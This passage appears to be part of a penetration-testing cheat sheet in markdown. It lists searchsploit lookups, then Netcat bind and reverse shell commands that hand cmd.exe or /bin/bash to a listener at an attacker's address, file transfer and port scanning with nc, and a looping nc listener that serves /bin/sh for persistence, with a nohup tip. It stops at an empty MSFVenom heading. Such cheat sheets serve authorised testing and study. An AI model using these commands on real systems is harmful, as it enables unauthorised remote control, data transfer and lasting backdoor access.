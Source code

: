 Copy path to clipboard:

```sh
searchsploit -p <ID>
```

Copy to current folder:

```sh
searchsploit -m <ID>
```

Get online link instead of local paths:

```sh
searchsploit -w <KEYWORDS>
```

## Shells

### Netcat

Basic bind shell:
```sh
nc -nvlp 443           # On local Kali
nc -nv <REMOTE-IP> 443 # On remote
```

Basic reverse shell:

```sh
sudo nc -nlvp 443                  # On local Kali
nc -nv <LOCAL-IP> 443 -e cmd.exe   # On remote Windows
nc -nv <LOCAL-IP> 443 -e /bin/bash # On remote Linux
```
Sending files:

```sh
sudo nc -nvlp 443 > incoming.exe     # Reciever
nc -nv <LOCAL-IP> 443 < incoming.exe # Sender
```

Scan:

```sh
nc -v -w3 -z IP SPORT-EPORT
```

* `-w3`: no more than 3s per port
* `-z`: minimal data sent

Persistence:

```sh
while [ 1 ]; do echo "ping"; nc -lp PORT -e /bin/sh; done
```

Tip: use `nohup` to create persistence even if the user logs out.

## MSFVenom shells:
